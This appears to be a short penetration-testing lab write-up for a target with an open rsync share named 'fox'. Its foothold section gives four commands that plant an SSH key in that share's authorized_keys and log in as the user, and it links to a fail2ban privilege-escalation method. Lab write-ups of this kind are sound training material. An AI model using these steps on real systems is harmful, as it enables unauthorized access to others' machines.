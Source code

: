 ### ++ Approach ++
#### Credentials
	* fox

#### Services
	##### 22 SSH
		-

	##### 873 RSync
		Hacktricks: https://book.hacktricks.xyz/network-services-pentesting/873-pentesting-rsync
		"fox" share found with no credentials

### ++ Vulnerabilities ++

#### Vuln 1: ++
	* -

### ++ System Interaction ++
#### Foothold  
	* With Hacktricks info we found that we have a share called fox (it's the name of the user) and we can upload files, so we build a ssh key and move the 'authorized_keys' file. Then we login with ssh and our key file and we land as fox
		ssh-keygen -f mykey
		mv mykey.pub authorized_keys
		rsync -av .ssh rsync://192.168.195.126/fox/
		ssh fox@192.168.195.126 -i .ssh/mykey

#### Privilege Escalation 
	* Abuse fail2ban app like this: https://juggernaut-sec.com/fail2ban-lpe/
	
#### Post-exploitation 
	* -